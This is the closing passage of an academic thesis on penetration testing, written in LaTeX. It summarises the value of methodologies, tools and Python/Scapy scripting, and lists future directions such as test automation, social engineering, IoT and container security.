    \item \textbf{Mitigation.} Risk mitigation and security enhancing suggestions. Examples of mitigation actions include policy, process, and procedure modifications; security architecture changes; deployment of new security technologies, OS and application patches, and many more depending on the vulnerabilities found and more important, the business' goals, plans and policy.
\end{itemize}
\chapter{Conclusion and Future Work}

\section{Conclusion}

A successful penetration test has a strong and undisputed connection with the underlying methodology. Different methodologies can produce different results, which makes the definition of the methodology an important part of the test. To properly lay out the performance of the test, a respectively thorough report and presentation is necessary. One of the goals of this thesis was to portray and explore the different types of proposed methodologies and tools. Tools can be divided into categories, depending on the type of vulnerabilities sought after and the technologies that they are found at. As mentioned before, every tool may expose a distinct variety of security flaws, so it is recommended to use a wide spectrum of tools and scripts during testing. However, the final result and the general success of the test is mostly dependent to the penetration tester. Even with the most powerful tools, a test may not be adequate to its full potential if the user of those tools is not able to know how to use them in his/her favor. Tools and techniques can just be a matter of choice and expertise.

Another goal of this thesis was to introduce the readers to the potential of scripting and coding. Tools can sometimes be inadequate or decorative. Coding can be an ace up the tester's sleeve, since it can either fill in the gaps from the tools or even carry out the whole test. The effectiveness is dependent on the tester's skills and experience. Throughout chapter 4, \textit{Python 3}\footnote{Visit the official organization website at \url{https://www.python.org}} was the coding language in which the scripts were written at, and \textit{Scapy}\footnote{Read more at \url{https://pypi.org/project/scapy/}} was the main library used for the purposes of the labs. No language or library is better than another because of the various uses each one of them has. It is on the user's hands to display their potential.

In conclusion, tools and methodologies, if properly utilized, can prove their usefulness for discovering the potential weaknesses of the system and the way to exploit them. Penetration testing plays its own part in building a strong security posture and neither is an alternative to other security measures nor a guarantee for system and data protection. In today's world, the number of information is rising with a vast and increasing rate. For that reason, information security is and will be relevant. Threats and vulnerabilities are evolving with new technologies but also attackers are constantly finding new ways to approach and perform cyber attacks. One should also keep changing and evolving, constantly learning and exploring along with technological advancement.

\section{Future Work}

This work can be extended in different directions:

\begin{itemize}
    \item Automation of Penetration Testing and a complete security testing solution can be an extension of this thesis work. As mentioned above, automation has its benefits, including time and less human resources. This addition can  empower the tester's strength by giving him time and possibility to focus on complementing the testing solution or even amplify the test and the solution itself.
    \item A very important element in Penetration Testing is the human factor. This thesis can be extended to consider this major risk point of the general security posture of an organization. Efforts can be done by integrating social engineering tools and techniques and the importance of the human behind the computer.
    \item New technologies arise as time passes by and Internet of Things are getting more and more popular and advanced. Their security, though, is a very controversial topic, since many attacks seem to have started through those. How those can be examined during a test and secured can be another subject to expand this thesis.
    \item As Cloud Computing\footnote{Cloud computing and storage provides users with capabilities to store and process their data in third-party data centers.} advances, security issues of it fall into two broad categories, the provider's and the customer's. The bridge in between those are Containers (e.g. Docker\footnote{Visit \url{https://www.docker.com} for further information.}, Kubernetes\footnote{Learn more about Kubernetes at \url{https://kubernetes.io/docs/concepts/overview/what-is-kubernetes/}} etc.). The container pipelines, deployment environment and many more, can be studied, examined and implemented to the extension of this thesis work, as well as cloud computing in general. 
\end{itemize}



\bibliographystyle{./theunsrt}
\bibliography{./references}

\end{document}